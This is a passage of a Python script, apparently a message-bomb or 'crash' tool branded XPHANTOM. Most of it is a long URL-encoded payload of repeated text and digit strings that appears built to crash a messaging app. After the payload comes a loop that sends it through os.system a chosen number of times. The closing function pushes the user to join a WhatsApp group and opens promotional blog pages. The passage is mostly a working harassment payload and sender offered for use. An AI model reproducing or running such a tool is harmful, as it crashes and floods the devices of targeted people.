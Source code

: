 0*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*
""")
	for i in range (crash):
		print()
		print(f"{Y}[✓] Sending Now\n")
		print(f"{G}[{Y}+{G}]{M}Applying 40sec delay...")
		link1 = os.system(link)
		time.sleep(40)
		if link1 == 0:
			print(f"{G} Successful")
			pass
		else:
			print(f"{R}[×] Failed  ")
		time.sleep(0.2)
	return main()
def MSG():
	print(Y)
	YTC = input("Have U Join Us ? (Y/N): ")
	if YTC == 'Y' or YTC == 'y':
		print(G)
		print("Thank You For Joining Us...\n")
		time.sleep(4)
		print("Initializing tool...")
		time.sleep(4)		
		print(W + "\n\n")
		main()
	elif YTC == 'N' or YTC == 'n':
		print("")
		os.system("xdg-open https://xphanttom.blogspot.com/p/join-whatsapp-group.html")
		os.system("xdg-open https://hackerxphantom.blogspot.com/p/join-whatsapp-group.html")
		time.sleep(8)
		os.system("xdg-open https://xphanttom.blogspot.com/p/join-whatsapp-group.html")
		os.system("xdg-open https://hackerxphantom.blogspot.com/p/join-whatsapp-group.html")
		time.sleep(3)
		print(W + "\n\n")